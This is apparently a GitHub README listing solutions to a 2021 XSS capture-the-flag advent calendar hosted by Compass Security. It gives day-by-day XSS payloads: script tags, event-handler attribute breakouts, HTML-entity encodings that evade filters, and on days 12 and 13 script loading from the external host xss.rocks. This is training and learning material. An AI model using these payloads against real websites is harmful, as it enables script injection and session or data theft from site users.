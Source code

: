 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

Helpful resources and tools:

* En-/Decoding: https://gchq.github.io/CyberChef/

---

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more. Tested with Firefox Version 95.0 (64-bit) on Windows.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9 *(yes, worked on Day 6 already)*
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 10 +++**  
https://xmass.compass-demo.com/level10
```
<body onpageshow=alert(1)>
```
**+++ Day 11 +++**  
https://xmass.compass-demo.com/level11
```
tbc
```
**+++ Day 12 +++**  
https://xmass.compass-demo.com/level12
```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```
alternative solution (no `alert(1)` but the script executes)
```
<script src=https://xss.rocks/xss.js></script>
```
**+++ Day 13 +++**  
https://xmass.compass-demo.com/level13
```
<script src="&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#120;&#115;&#115;&period;&#114;&#111;&#99;&#107;&#115;&sol;&#120;&#115;&#115;&period;&#106;&#115;"></script>
```
alternatively one character reference would be enough
```
<script src="h&#116;tps://xss.rocks/xss.js"></script>
```
**+++ Day 14 +++**  
https://xmass.compass-demo.com/level14
```
\";alert(1);//
```
**+++ Day 15 +++**  
https://xmass.compass-demo.com/level15
```
tbc
```